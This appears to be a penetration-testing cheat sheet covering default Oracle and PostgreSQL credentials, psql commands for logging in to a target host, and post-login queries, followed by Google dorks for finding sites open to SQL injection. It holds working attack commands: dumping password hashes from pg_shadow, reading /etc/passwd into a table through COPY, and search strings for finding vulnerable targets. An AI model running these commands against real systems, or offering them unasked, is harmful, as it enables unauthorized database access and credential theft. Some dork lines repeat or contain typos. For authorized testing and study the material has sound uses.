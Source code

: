[https://www.orafaq.com/wiki/List_of_default_database_users](https://www.orafaq.com/wiki/List_of_default_database_users)
[http://www.petefinnigan.com/default/default_password_list.htm](http://www.petefinnigan.com/default/default_password_list.htm)\
Examples: applsys|apps; ctxsys|ctxsys;dbsnmp|dbsnmp ...

## PostgresSQL-5432
Default User: postgres
Default Password: (none)
Local Login: 
```bash
psql -d DATABASE -U USER
```
Remote Login: 
```bash
psql -h TARGETIP -d DATABASE -U USER
```
```bash
select version();	
select current_database();
select current_user;
select session_user;
select current_setting('log_connections');
select current_setting('log_statement');
select current_setting('port');
select current_setting('password_encryption');
select current_setting('krb_server_keyfile');
select current_setting('virtual_host');
select current_setting('port');
select current_setting('config_file');
select current_setting('hba_file');
select current_setting('data_directory');
select * from pg_shadow;
select * from pg_group;
create table myfile (input TEXT);
copy myfile from '/etc/passwd'; 
select * from myfile;copy myfile to /tmp/test;
```
# SQL Injection
### Google Dorking
```bash
inurl:"id=" & intext:"Warning: mysql_fetch_assoc()"
inurl:"id=" & intext:"Warning: mysql_fetch_array()"
inurl:"id=" & intext:"Warning: mysql_num_rows()"
inurl:"id=" & intext:"Warning: session_start()"
inurl:"id=" & intext:"Warning: getimagesize()"
inurl:"id=" & intext:"Warning: is_writable()"
inurl:"id=" & intext:"Warning: getimagesize()"
inurl:"id=" & intext:"Warning: Unknown()"
inurl:"id=" & intext:"Warning: session_start()"
inurl:"id=" & intext:"Warning: mysql_result()"
inurl:"id=" & intext:"Warning: pg_exec()"
inurl:"id=" & intext:"Warning: mysql_result()"
inurl:"id=" & intext:"Warning: mysql_num_rows()"
inurl:"id=" & intext:"Warning: mysql_query()"
inurl:"id=" & intext:"Warning: array_merge()"
inurl:"id=" & intext:"Warning: preg_match()"
inurl:"id=" & intext:"Warning: ilesize()"
inurl:"id=" & intext:"Warning: filesize()"
inurl:"id=" & intext:"Warning: filesize()"
inurl:"id=" & intext:"Warning: require()
inurl:aboutbook.php?id=
```